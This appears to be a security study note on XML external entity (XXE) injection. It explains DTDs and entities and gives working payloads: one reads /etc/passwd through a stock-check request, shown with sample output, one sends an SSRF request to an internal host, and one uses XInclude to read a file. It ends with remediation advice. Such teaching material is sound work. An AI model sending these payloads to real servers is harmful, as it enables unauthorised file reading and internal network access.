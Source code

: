 # XXE (XML external entity)❌Injection

XXE injection allows an attacker to interfere with processing XML data of application.

Attacker can view internal file's of applicatgion server and interact with back end systems.

- ***XML (Extensible markup language):*** designed for storing and transporting data. XML uses a tree structure of tags and data.
- ***XML Entities*** is a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >.
- ***DTD (Document type definition):*** define the structure of an XML document, it can contain types of data values and other items. 

  DTD is declared within the optional DOCTYPE element at the start of the XML document. 

  DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two. 
- ***What is XML external entities:*** a type of custom entity whose definition is located outside of the DTD.
  
  Declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded
  
  ` <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` or `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

## How XXE vulnerability occur?

When aplications use the XML format to transmit data between the browser to server. they always using standard library or platform API to process XML data on the server.

XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

Like XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. also external entities are allow an entity to be defined based on the contents of a file path or URL. 

## Types of XXE

- Internal DTD
- External DTD


## 🔎 How to find and test XXE
### 1. Exploiting XXE to retrieve files

 To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

   1. Edit a DOCTYPE element that defines an external entity containing the path to the file.
   2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

Example: Application checks for the stock level of a product by submitting the following XML to the server
```
<?xml version="1.0" encoding="UTF-8"?>
<stocCheck><productId>381</productId></stockCheck>
```

Here. no defenses against XXE attacks, so you can exploit XXE to retrieve the `/etc/passwd` file by submitting following XXE payload: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file.
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
### 2. Exploiting XXE to perform SSRF attacks

SSRF is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

Example: Perform SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### 3. [Blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)

### 4. Finding hidden attack surface for XXE injection
  1. XInclude attacks

Perform an XInclude attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. 

Example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
  2. [XXE attacks via file upload](https://portswigger.net/web-security/xxe)
  3. [XXE attacks via modified content type](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)


## 🛠️ Remediation of XXE

- XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The safest way to prevent XXE is always to disable DTDs (External Entities) completely. 
-  Configure XML parser to disable external entity resolution.
-  Disable support for XInclude

## 🔗 Refrence

- https://portswigger.net/web-security/xxe
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
